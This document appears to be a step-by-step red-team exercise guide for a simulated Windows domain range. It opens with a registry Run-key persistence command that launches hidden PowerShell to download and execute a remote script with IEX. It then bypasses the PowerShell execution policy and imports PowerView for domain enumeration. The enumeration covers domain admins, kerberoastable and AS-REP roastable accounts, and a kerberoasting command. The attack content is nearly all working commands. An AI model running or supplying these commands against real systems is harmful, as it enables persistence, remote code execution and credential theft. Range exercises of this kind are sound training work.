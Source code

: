 ```shell
shell PCHealthCheck.exe --key HKCU:\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Run\backup --type REG_SZ --create --value "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://www.google.com.co:80/index.php'))\""
```

>[!note] 
>Make sure that you are writing to HKCU, not HKLM!
>Also make sure that you escape the double quote before IEX and the second-to-last double quote with a `\`

>[!danger] Do not restart the machine!

## Connect VPN
Now it's time to connect the host to the VPN. This is a white card event that is being used to simulate the user logging in to the target domain, which is what begins the attack.
- Right-click the OpenVPN-gui and click `connect`. Then `Ok`.
>[!warning]- Troubleshooting
>[[Vulnerability and Range Setup#Connecting XXX-VPN-USER to domain VPN.|See this section for troubleshooting]]

## Enumeration

### Import Powerview

We will need to conduct recon on the domain. Powerview is a very handy way to do it. 

First we'll need to change the execution policy to import powershell.
`powershell set-executionpolicy -scope currentuser bypass`

Next we'll import the module:

```
powershell-import
```

Navigate to the ~/tools/powershell/PowerSploit/Recon folder and select PowerView.ps1.

### User/Group Enumeration

```
powershell get-domainuser >> users.txt    #return all domain users if using powerview
download users.txt
rm users.txt

shell net1.exe groups /domain
shell net1.exe group "Domain Admins" /domain

powershell get-netuser -spn | select serviceprincipalname #get kerberoastable users
powershell invoke-kerberoast # to kerberoast users (should be uncrackable)
powershell get-netuser -preauthnotrequired # ASREPRoastable users

powershell get-domaingroup | select name,member | ft -autosize -wrap
shell net1.exe user jeri.wu /domain
```
